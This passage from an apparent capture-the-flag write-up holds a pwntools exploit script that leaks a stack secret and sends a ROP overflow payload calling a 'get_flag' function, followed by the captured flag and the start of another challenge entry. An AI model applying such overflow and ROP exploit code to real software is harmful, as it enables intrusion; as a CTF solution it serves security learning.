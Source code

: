 ```python
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    secret_addr = elf.bss() + 0x28
    target.success(f"secret addr: {hex(secret_addr)}")

    target.sendafter(b"Tell me its address", p64(secret_addr))
    leak = target.recvlines(2)[1]
    secret = int(leak, 16).to_bytes(0x8, "little")
    target.success(f"leaked_addr: 0x{secret.hex()}")
    target.sendafter(b"the story unlocks", secret)

    target.recvuntil(b"for you: ")
    val = int(target.recvline().strip(), 16).to_bytes(0x8, "little")
    target.success(f"val: 0x{val.hex()}")

    # raw_input("DEBUG")
    payload = flat(
        b"A" * 64,
        val,
        b"A" * 0x10,
        rop.ret.address,
        elf.sym["get_flag"],
    )
    target.sendlineafter(b"into this story.", payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`csawctf{U_w3r3_n3v3r_m3@nt_2_s33_th3_st@ck~but_I_l3t_U_1n_b3c@us3_1_l0v3_U~d8K#xY_q1W9eVz2NpL7}`]

# Power Up

## Information

- Category: Pwn
- Points: 500
